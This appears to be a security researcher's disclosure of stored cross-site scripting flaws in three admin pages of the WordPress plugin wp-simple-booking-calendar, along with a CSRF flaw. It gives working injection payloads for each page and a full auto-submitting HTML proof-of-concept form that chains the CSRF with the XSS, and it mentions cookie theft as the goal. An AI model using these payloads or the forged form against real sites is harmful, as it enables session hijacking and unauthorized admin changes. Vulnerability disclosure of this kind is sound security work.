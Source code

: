 Well ,sir ,I just found Stored-XSS bugs and a CSRF bug here.

#### Stored-XSS

##### Stored-XSS at extras

When the user click the "extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-extras
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
extra_field1[items][field_item1][price_percent]=\"><img src=x onerror=console.log(/xss/)><\"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/extra-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/extras-xss2.png)



##### Stored-XSS at themes

When the user click the "extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-themes
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
sale_conditions[count][]='"><svg/onload=console.log(/xss2/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/themes-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/themes-xss2.png)


##### Stored-XSS at forms

When the user click the "extras" link，edit something and save changes， he'll post some data to:

```
http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms
```


But when I pentest the  parameters, I found when I write something into this point, it does not filter well.

Weak data parameter:

```
form_field5[label]=Message'"><svg/onload=console.log(/xss3/)><'"
```

Here we got a low privilege role like a editor user：

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/form-xss1.png)

When the other users or the admin tried to edit the shared page, we'll get the users' cookie easily, or do something more evilly.

Here I login in the panel as the admin user, and visit the page with the stored-xss content.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/wp-simple-booking-calendar/form-xss2.png)

#### CSRF

Well, the stored-xss here need to combined with a csrf bug. Because no csrf protection here, we can cheat the admin user to visit the evil html on the evil site.

POC:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost/wordpress/wp-admin/admin.php?page=wpdevart-forms" method="POST">
      <input type="hidden" name="title" value="test123" />
      <input type="hidden" name="save" value="Save" />
      <input type="hidden" name="form&#95;field3&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field3&#91;name&#93;" value="form&#95;field3" />
      <input type="hidden" name="form&#95;field3&#91;label&#93;" value="Email" />
      <input type="hidden" name="form&#95;field3&#91;isemail&#93;" value="on" />
      <input type="hidden" name="form&#95;field4&#91;type&#93;" value="text" />
      <input type="hidden" name="form&#95;field4&#91;name&#93;" value="form&#95;field4" />
      <input type="hidden" name="form&#95;field4&#91;label&#93;" value="Phone" />
      <input type="hidden" name="form&#95;field5&#91;type&#93;" value="textarea" />
      <input type="hidden" name="form&#95;field5&#91;name&#93;" value="form&#95;field5" />
      <input type="hidden" name="form&#95;field5&#91;label&#93;" value="Message&apos;&quot;&gt;&lt;svg&#47;onload&#61;console&#46;log&#40;&#47;xss3&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="task" value="save" />
      <input type="hidden" name="id" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

In a word, if the other user could be cheated to visit my evil html on my site, or I just a low privilege role to edit something in the shared page, I can get other users' cookie easily, or do something more evilly.


Well,  by the way, I just test the bug in the wordpress 4.9.1 and the latest version of the wp-plugin wp-simple-booking-calendar.